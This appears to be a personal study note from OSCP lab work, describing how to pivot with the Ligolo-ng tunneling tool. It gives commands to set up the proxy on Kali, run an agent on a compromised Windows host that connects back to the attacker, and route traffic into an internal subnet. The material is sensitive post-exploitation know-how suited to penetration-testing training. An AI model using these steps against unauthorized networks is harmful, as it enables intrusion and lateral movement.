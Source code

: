public:: true

- ![image.png](../assets/image_1700209566785_0.png){:height 74, :width 280} 
  An advanced, yet simple, tunneling/pivoting tool that uses a TUN interface.
- Download Ligolo-ng artifacts from the [GH release page](https://github.com/nicocha30/ligolo-ng/releases)
	- Download the proxy *(AKA server)* for our Kali Linux from
	- Download the agent *(AKA client)* for the platform/arch we want to pivot from
- Server configuration
	- First we need to create a dedicated TUN interface.
	  ```bash
	  sudo ip tuntap add user crazybyte mode tun ligolo
	  sudo ip link set ligolo up
	  ```
	  *This requires privileged capabilities to create the tun interface. Since it's almost always done on Kali that's not an issue.*
	- Start the server
	  ```bash
	  ./proxy -selfcert
	  ```
	- The by default it starts listening on all interfaces on port `11601`. This can be changed via the the `-laddr` option.
	  ```bash
	  ./proxy -selfcert -laddr 192.168.45.183:11601
	  ```
- Client configuration
	- Upload the agent to the target machine
	- Start the agent
	  *The agent can ran from unprivileged users on any supported platform.*
		- On Linux
		  ```bash
		  ./agent -ignore-cert -connect 192.168.45.183:11601
		  ```
		- On Windows
		  ```powershell
		  .\agent.exe -ignore-cert -connect 192.168.45.183:11601
		  ```
	- If everything went fine you should see the agent joining on the ligolo-ng server console
	  ```
	  ┌──(crazybyte㉿kali)-[~/OSCP/Labs/MEDTECH]
	  └─$ ./proxy -selfcert -laddr 192.168.45.183:11601
	  WARN[0000] Using automatically generated self-signed certificates (Not recommended) 
	  INFO[0000] Listening on 192.168.45.183:11601             
	      __    _             __                                                                          
	     / /   (_)___ _____  / /___        ____  ____ _
	    / /   / / __ `/ __ \/ / __ \______/ __ \/ __ `/
	   / /___/ / /_/ / /_/ / / /_/ /_____/ / / / /_/ /                                                    
	  /_____/_/\__, /\____/_/\____/     /_/ /_/\__, /                                                     
	          /____/                          /____/                                                      
	                                                                                                      
	  Made in France ♥ by @Nicocha30!                                                                     
	                                                                                                      
	  ligolo-ng » INFO[0605] Agent joined.                                 name="NT AUTHORITY\\SYSTEM@WEB02" remote="192.168.212.121:52145"
	  ligolo-ng » 
	  ```
- Start tunnelling from Kali through the client
	- Lets consider that we got access to `192.168.212.121` *(our target machine)* and we successfully deployed our ligolo-ng client there. We then realize that the breached machine has an additional network interface which provides access to an internal network on the segment `172.16.212.0/24`.
	  Our Kali (attacker machine) has no access to the new discovered network, so we can configure `192.168.212.121` to act as proxy for us with the ligolo-ng agent.
		- Lets first `start` the tunnel between our new joined agent and the proxy
		  ```
		  ligolo-ng » INFO[3245] Agent joined.                                 name="NT AUTHORITY\\SYSTEM@WEB02" remote="192.168.212.121:52154"
		  ligolo-ng » session
		  ? Specify a session : 2 - NT AUTHORITY\SYSTEM@WEB02 - 192.168.212.121:52154
		  [Agent : NT AUTHORITY\SYSTEM@WEB02] » ifconfig
		  ┌───────────────────────────────────────────────┐
		  │ Interface 0                                   │
		  ├──────────────┬────────────────────────────────┤
		  │ Name         │ Ethernet0                      │
		  │ Hardware MAC │ 00:50:56:9e:1e:11              │
		  │ MTU          │ 1500                           │
		  │ Flags        │ up|broadcast|multicast|running │
		  │ IPv4 Address │ 192.168.212.121/24             │
		  └──────────────┴────────────────────────────────┘
		  ┌───────────────────────────────────────────────┐
		  │ Interface 1                                   │
		  ├──────────────┬────────────────────────────────┤
		  │ Name         │ Ethernet1                      │
		  │ Hardware MAC │ 00:50:56:9e:ab:72              │
		  │ MTU          │ 1500                           │
		  │ Flags        │ up|broadcast|multicast|running │
		  │ IPv4 Address │ 172.16.212.254/24              │
		  └──────────────┴────────────────────────────────┘
		  [Agent : NT AUTHORITY\SYSTEM@WEB02] » start
		  [Agent : NT AUTHORITY\SYSTEM@WEB02] » INFO[3263] Starting tunnel to NT AUTHORITY\SYSTEM@WEB02 
		  ```
		- Now we just need to instruct our Kali that it can reach `172.16.212.0/24` via the `ligolo` tun interface, by adding a dedicated route.
		  id:: 655732a5-b8af-4b92-b83d-83506e81d6a7
		  ```bash
		  sudo ip route add 172.16.212.0/24 dev ligolo
		  ```
- Limitation
  #+BEGIN_CAUTION
  Please consider the following tool limitation while interacting with ligolo-ng!
  #+END_CAUTION
	- Because the agent is running without privileges, **it's not possible to forward raw packets**. When you perform a NMAP SYN-SCAN, a TCP connect() is performed on the agent.
		- When using nmap, you should use `--unprivileged` or `-PE` to avoid false positives.
	- Supported protocols/packets
		- TCP
		- UDP
		- ICMP (echo requests)